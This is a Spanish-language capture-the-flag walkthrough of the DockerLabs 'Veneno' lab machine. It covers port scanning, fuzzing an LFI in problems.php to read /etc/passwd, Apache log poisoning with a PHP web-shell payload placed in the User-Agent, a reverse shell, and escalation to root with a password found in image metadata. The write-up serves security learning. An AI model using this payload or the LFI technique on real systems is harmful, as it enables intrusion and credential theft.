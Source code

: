 # Veneno

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Veneno`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_1.png)  

Hay dos puertas abiertas, la 22 y la 80.  
Echemos un vistazo a la web.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_2.png)  

Podemos ver la página por defecto de apache2 y tampoco encontramos nada de interés en el código fuente de la página.  
Por lo tanto, vamos a hacer un poco de fuzzing.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_3.png)    

Descubrimos una nueva ruta, /uploads, a la que tenemos acceso, pero que no contiene nada.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_4.png)     
  
También vemos otra página, /problems.php, que, a primera vista, parecería ser la misma que la página de inicio.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_5.png)    

Intentemos ver si esta página es vulnerable a un ataque LFI (Local File Inclusion).  
Ejecutamos el comando:  

`sudo wfuzz -c -L -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=363 "http://172.17.0.2/problems.php?FUZZ=/../../../../../etc/passwd"`

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_6.png)      

¡Así es!  
Podemos ver que hay un usuario, **carlos**.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_7.png)   

A continuación intentamos realizar una fuerza bruta con hydra pero no obtenemos resultados.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_8.png)   

Ejecutamos entonces este comando para ver si tenemos accesos a los logs para intentar ejecutar un ataque de log poisoning.  

`sudo wfuzz -c --hc=404 --hw=0 -t 200 -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://172.17.0.2/problems.php?backdoor=FUZZ' 

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_9.png)     

Sí, tenemos acceso a los logs de apache, así que intentaremos llevar a cabo este ataque con el objetivo de enviar una shell inversa a nuestra máquina atacante.  
Primero tendremos que abrir el Burp Suite e interceptar la petición.  
Para ello interceptaremos la petición a la página (http://172.17.0.2/problems.php?backdoor=/var/log/apache2/access.log.  
Ahora modificaremos el campo User Agent con la cadena:   

`<?php system($_GET['cmd']); ?>`   

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_10.png)     

Ahora añadiremos un **&cmd** al final pasando una reverse shell en PHP url codificada y nos pondremos a la escucha en nuestra máquina atacante.    

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_11.png)   

Bien, estamos dentro.  
Ahora haremos el tratamiento de la shell para poder trabajar de forma más cómoda. 

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_12.png) 
![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_13.png)    

Hacemos un `ls` para listar los archivos de la carpeta donde nos encontramos y vemos que hay un archivo interesante.   

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_14.png)    

Buscamos entonces si hay algún archivo en formato texto que nos podría venir bien.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_15.png)      

Abrimos el archivo y descubrimos la contraseña.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_16.png)   

Bien, ahora abrimos el archivo /etc/passwd para encontrar el usuario.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_17.png)   

Por fin, iniciamos sesión con el usuario encontrado.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_18.png)   

Ahora nos movemos a la página de inicio del usuario y realizamos un `ls -lah`, podemos ver que hay una gran cantidad de carpetas.   

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_19.png)  

Lo que podemos hacer es ordenarla por tamaño para ver si encontramos algún contenido.  


![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_20.png)   

Al parecer, solo la carpeta 55 parece contener algo.  
Entramos para ver qué hay.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_21.png)   

Bien, lo que haremos será descargar este archivo a nuestra máquina atacante para ver si se ha aplicado esteganografía o algo por el estilo.  
Lo haremos con `scp`.    

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_22.png)     

Antes de nada lenzamos **exiftool** para ver si podemos sacar algauna informacion interesante.    

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_23.png)   

Bueno, nos llama la atención esta línea, donde vemos algo que podría ser una contraseña.   
Probamos a ver si poniendo **pingui1730** podemos convertirnos en root.   

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_24.png)   

¡Listo!  
¡Ya somos root!  




























